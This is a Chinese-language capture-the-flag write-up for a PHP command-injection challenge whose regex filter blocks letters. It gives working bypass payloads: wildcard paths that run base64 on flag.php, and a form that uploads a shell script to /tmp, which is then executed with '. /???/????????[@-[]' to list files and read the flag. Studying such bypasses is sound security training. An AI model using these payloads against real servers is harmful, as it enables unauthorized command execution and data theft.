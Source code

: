 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 20:03:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

字母

`

%

\x09即制表符

\x26即&符号

\>

\<





### 第一种

之前我是用/???/????64 ????.???去匹配/bin/base64实现base64编码flag.php

实现读取flag，但是现在题目好像变了，不过思路可以学一下

```
?c=/???/????64 ????.???
```

![image-20250403163927131](./assets/image-20250403163927131.png)

![image-20250403163921235](./assets/image-20250403163921235.png)

无法读取flag





### 第二种

没有过滤 . 那么就可以利用 . 执行sh命令

通过post传递一个文件，文件里面写sh命令

在上传的过程中，利用.（点）去执行这个文件（形成了条件竞争）

一般来说，上传的这个文件在linux下保存在/tmp/php??????一般后面的六位是随机生成的，最后一位是大写（可以通过linux通配符去匹配）

通过. 去执行sh命令不需要执行权限



构造post上传文件的数据包

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

上传文件，然后抓包

![image-20250404124158885](./assets/image-20250404124158885.png)

![image-20250404124208847](./assets/image-20250404124208847.png)



修改数据包内容

![image-20250404124300696](./assets/image-20250404124300696.png)

![image-20250404124308958](./assets/image-20250404124308958.png)



利用 . 执行，%20绕过空格 /???/????????[@-[]

/??? 匹配/tmp

/???????? 匹配/phpxxxxx  其中xxxxx表示随机字符

[@-[] 匹配最后一位大写字母





然后文件中内容为sh脚本

```
#!/bin/bash
ls
```



得到当前目录内容



然后读取flag

```
/?c=.%20/???/????????[@-[]]
```

```
#!/bin/bash
tac flag.php
```

![image-20250404125015090](./assets/image-20250404125015090.png)